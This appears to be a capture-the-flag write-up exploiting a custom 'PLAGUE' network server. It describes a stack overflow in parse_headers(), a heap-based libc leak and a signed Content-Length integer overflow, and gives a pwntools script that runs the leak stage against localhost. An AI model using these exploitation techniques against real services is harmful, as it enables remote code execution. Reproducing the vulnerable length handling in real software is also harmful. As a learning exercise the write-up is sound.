 
### Bugs 

so we have a buffer overflow in the parse_headers() function where it keeps reading from the client socket until a "\r\n\r\n" is recvieved to a fixed size buffer of 1024 bytes. The program doesnt have stack canaries enabled so we can just overwrite RIP.

Leak ?

so we can get a libc leak by creating a chunk of size 2000 freeing it allocating the same chunk again but this this we will have a libc pointer in this chunk .There is also a interger overflow vuln in the plague function when we parse the header `content-Length` we store a unsigned long in a signed long ...

```C
    char *plague_content = (char *)malloc(MAX_PLAGUE_CONTENT_SIZE);
    ....
    long len = strtoul(get_header("Content-Length"), len, 10);
    ....
        if (len >= MAX_PLAGUE_CONTENT_SIZE) {
        len = MAX_PLAGUE_CONTENT_SIZE-1;
    }

    recv(client_socket, plague_content, len, 0);
```
if we send Content-Length as `-1` we can bypass the check can get a heap overflow .

i dont use this bug in my exploit but i think this was a unintentional bug .

### Exploit Strategy 

The primitives given above can be used to leak libc address and also to get a ropchain going.

- We create a chunk of 2000 bytes in the heap and writes 2000bytes to it  with 1 connection then we again create a 2000 bytes chunk this time only writing 1byte to this this will give us two pointers to libc in out handle_plague() output .

- We can create another connection to exploit the buffer overflow in the parse_headers function.
- profit !!!!
### Initial Exploit

```python
from pwn import *


def slog(k, v): return success(' : '.join([k, v]))
def clog(k, v): return log.critical(' : '.join([k, v]))
# action  target_competitor version 
context.log_level='debug'
libc=ELF("./libc-2.31.so")

p = remote("127.0.0.1",9001)

p.sendline(b"PLAGUE YOUDONTKNOWMESON 1.0\r")
p.sendline(b"Plague-Target:dddddddddd\r") 
p.sendline(b"Content-Length: 2048\r\n\r")
p.sendline(b"A"*2048)
p1 = remote("127.0.0.1",9001)


p1.sendline(b"PLAGUE SOMEONE 2.0\r")
p1.sendline(b"Plague-Target:asasdadad\r") 
p1.sendline(b"Content-Length: 2000\r\n\r")
p1.sendline(b"B")

p1.recvuntil(b"\x0a")
print(p1.recv(6))
```